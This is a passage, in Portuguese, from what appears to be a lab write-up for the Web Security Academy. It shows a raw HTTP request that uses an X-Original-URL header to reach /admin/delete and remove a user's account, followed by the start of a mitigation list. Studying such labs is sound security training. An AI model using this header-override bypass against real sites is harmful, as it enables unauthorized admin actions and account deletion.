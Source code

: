 O acesso foi permitido e agora podemos acessar a página de administrador, mas para concluir o laboratório precisamos excluir a conta de outro usuário.

E para isso, vamos adicionar o parâmetro `X-Original-URL: /admin/delete` ao cabeçalho da requisição, alterar a url para `/?username=carlos` e enviar a requisição.

```http

GET /?username=carlos HTTP/1.1
Host: 0a5b00d504870d6fc1c0e9b20012006d.web-security-academy.net
Cookie: session=JBfnGwhBosebLxYIgMa6Q8wxKGf87NQv
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
X-Original-URL: /admin/delete
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```	

<div class="page"/>

Dessa forma conseguimos excluir a conta do usuário `carlos` e concluir o laboratório.

![concluido](url_concluido.png)

---

## **• Mitigação.**


***Existem várias formas de mitigar as vulnerabilidades no controle de acesso mencionadas anteriormente:***

- **Autenticação robusta**: Implementar medidas de autenticação robustas, como autenticação de dois fatores ou autenticação baseada em reconhecimento de biometria, para impedir ataques de força bruta e phishing.

- **Validação de entrada**: Validar e sanitizar todas as entradas de usuário para evitar ataques de injeção.
